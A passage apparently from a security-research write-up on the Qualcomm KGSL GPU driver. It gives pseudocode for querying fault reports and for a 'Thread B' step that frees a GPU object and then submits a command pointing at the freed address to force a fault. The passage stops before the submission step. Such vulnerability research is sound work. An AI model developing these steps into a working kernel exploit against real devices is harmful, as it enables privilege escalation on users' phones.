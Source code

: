 ```c
function ioctl_fault_report(ctx, file):

    // --- Phase 1: Query fault counts ---
    param.context_id = ctx
    param.faultnents = 2                   // Ask for 2 fault types
    param.faultlist  = pointer to array of struct kgsl_fault
    param.faultsize  = sizeof(struct kgsl_fault)

    ioctl(file, IOCTL_KGSL_GET_FAULT_REPORT, &param)
    // -> Kernel fills faultlist[i].type, faultlist[i].count, faultlist[i].size

    // --- Phase 2: Allocate per-type buffers & query actual data ---
    for each faultlist[i]:
        if count > 0:
            faultlist[i].fault = buffer for count * sizeof(pagefault_report)
            faultlist[i].size  = sizeof(pagefault_report)

    ioctl(file, IOCTL_KGSL_GET_FAULT_REPORT, &param)
    // -> Kernel now fills each fault buffer with detailed entries

    // --- Phase 3: Inspect retrieved data ---
    for each faultlist[i]:
        print type, count
        if type == PAGEFAULT:
            print per-entry fault_addr, fault_type
```

Based on the two-phase protocol, The driver implementation determines which phase you're in by checking if the fault field in each kgsl_fault structure is non-zero. If all are zero, it returns fault counts; otherwise, it fills in the actual fault data.

Okay, let's look at Thread B now. We need to create a GPU fault so that the fault creation and handling procedure can run. The most common faults occur when the GPU tries to access invalid memory addresses. Let's try doing that -

```c
// Pseudocode: allocate GPU object, free it, then submit a command that points to the freed address

function create_fault(ctx, fd):

    // --- 1) Allocate GPU object (returns alloc.id and alloc.gpuaddr) ---
    alloc = {
        size: 4096,
        flags: 0,
        va_len: 4096,
        mmapsize: 4096
    }
    ioctl(fd, IOCTL_KGSL_GPUOBJ_ALLOC, &alloc)
    // Kernel returns: alloc.id, alloc.gpuaddr (valid GPU address)

    // --- 2) Build command object that references the (currently) VALID GPU address ---
    cmd = {
        gpuaddr: alloc.gpuaddr,  // initially valid; will pass software verification
        size: 64,
        flags: CMDLIST_FLAGS,
        id: alloc.id
    }

    // --- 3) Free the GPU object to make that address invalid in hardware ---
    free_req = { id: alloc.id }
    ioctl(fd, IOCTL_KGSL_GPUOBJ_FREE, &free_req)
    // After this call: alloc.gpuaddr is no longer backed by memory -> dangling GPU addr

    // --- 4) Submit the command that references the now-freed GPU address ---
```